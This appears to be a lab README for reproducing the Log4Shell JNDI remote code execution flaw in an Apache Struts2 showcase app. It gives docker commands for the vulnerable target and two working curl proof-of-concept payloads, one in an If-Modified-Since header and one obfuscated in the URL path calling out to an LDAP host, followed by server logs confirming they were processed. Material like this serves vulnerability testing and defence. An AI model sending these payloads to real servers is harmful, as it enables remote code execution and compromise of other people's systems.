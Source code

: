 # Apache Struts2 log4j RCE

## vulnerable app

```
docker pull vultarget/log4j2-struts2-showcase:2.14.1

docker run --name struts2-showcase -d -p 8360:8080 vultarget/log4j2-struts2-showcase:2.14.1
```

## Poc1

```
curl -vv -H "If-Modified-Since: \${jndi:ldap://localhost:80/abc}" http://localhost:8080/struts2-showcase/struts/utils.js
```

Logs

```
2021-12-11 17:58:45,991 WARN  [http-nio-8080-exec-2] dispatcher.DefaultStaticContentLoader (DefaultStaticContentLoader.java:241) - Invalid If-Modified-Since header value: '${jndi:ldap://localhost:80/abc}', ignoring
```

I've tested it

![](1.png)

## Poc2

```
curl -vv http://localhost:8080/struts2-showcase/$%7Bjndi:ldap:$%7B::-/%7D/10.0.0.6:1270/abc%7D/
```

Logs

```
2021-12-13 10:26:47,908 WARN  [http-nio-8080-exec-7] mapper.DefaultActionMapper (DefaultActionMapper.java:419) - /${jndi:ldap:${::-/}/10.0.0.6:1270/abc} did not match allowed namespace names [a-zA-Z0-9._/\-]* - default namespace / will be used!
```

I've tested it

![](2.png)